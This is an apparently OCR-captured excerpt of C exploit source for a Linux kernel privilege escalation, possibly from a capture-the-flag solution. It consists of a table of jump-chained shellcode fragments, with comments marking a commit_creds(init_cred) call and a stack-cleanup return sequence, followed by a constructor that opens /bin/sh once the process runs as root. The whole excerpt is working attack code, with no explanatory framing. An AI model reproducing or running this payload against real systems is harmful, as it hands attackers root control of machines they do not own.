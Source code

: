 ```c
    { 0x29, 0xD3, 0xEB, 0x01 },
    { 0x53, 0x90, 0xEB, 0x01 },
    { 0x48, 0x94, 0xEB, 0x01 },
    { 0x04, 0x0C, 0xEB, 0x01 },
    { 0x31, 0xC9, 0xEB, 0x01 },
    { 0xF7, 0xD1, 0xEB, 0x01 },
    { 0x48, 0x94, 0xEB, 0x01 },
    { 0x51, 0x90, 0xEB, 0x01 },
    { 0x48, 0x94, 0xEB, 0x01 },
    { 0x2C, 0x04, 0xEB, 0x01 },
    { 0x48, 0x94, 0xEB, 0x01 },
    { 0x31, 0xC9, 0xEB, 0x01 },
    { 0x31, 0xC0, 0xEB, 0x01 },
    { 0xB1, 0x08, 0xEB, 0x01 },
    { 0x04, 0x01, 0xEB, 0x01 },
    { 0xD3, 0xE0, 0xEB, 0x01 },
    { 0x04, 0x97, 0xEB, 0x01 },
    { 0xD3, 0xE0, 0xEB, 0x01 },
    { 0x04, 0xB8, 0xEB, 0x01 },
    { 0xD3, 0xE0, 0xEB, 0x01 },
    { 0x04, 0x50, 0xEB, 0x01 },
    { 0x01, 0xC3, 0xEB, 0x01 },
    { 0x50, 0x50, 0xEB, 0x01 },
    { 0x50, 0x53, 0xEB, 0x01 },
    { 0x48, 0x94, 0xEB, 0x01 },
    { 0x04, 0x0C, 0xEB, 0x01 },
    { 0x31, 0xC9, 0xEB, 0x01 },
    { 0xF7, 0xD1, 0xEB, 0x01 },
    { 0x48, 0x94, 0xEB, 0x01 },
    { 0x51, 0x90, 0xEB, 0x01 },
    { 0x48, 0x94, 0xEB, 0x01 },
    { 0x2C, 0x04, 0xEB, 0x01 },
    { 0x48, 0x94, 0xEB, 0x01 },
    { 0x5F, 0x58, 0xEB, 0x01 },
    { 0x58, 0x58, 0xEB, 0x01 },
    { 0x58, 0x90, 0xEB, 0x01 },
    { 0xFF, 0xD0, 0xEB, 0x01 }, // commit_creds(init_cred)
    { 0x58, 0x58, 0xEB, 0x01 }, // pop rax * 29 + ret
    { 0x58, 0x58, 0xEB, 0x01 }, 
    { 0x58, 0x58, 0xEB, 0x01 }, 
    { 0x58, 0x58, 0xEB, 0x01 }, 
    { 0x58, 0x58, 0xEB, 0x01 }, 
    { 0x58, 0x58, 0xEB, 0x01 },  
    { 0x58, 0x58, 0xEB, 0x01 }, 
    { 0x58, 0x58, 0xEB, 0x01 }, 
    { 0x58, 0x58, 0xEB, 0x01 }, 
    { 0x58, 0x58, 0xEB, 0x01 }, 
    { 0x58, 0x58, 0xEB, 0x01 }, 
    { 0x58, 0x58, 0xEB, 0x01 }, 
    { 0x58, 0x58, 0xEB, 0x01 }, 
    { 0x58, 0x58, 0xEB, 0x01 },
    { 0x58, 0xC3, 0xEB, 0x01 },  
};

__attribute__((constructor))
void init(){
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    setbuf(stderr, NULL);
    if(getuid() == 0)
        system("/bin/sh");
}

```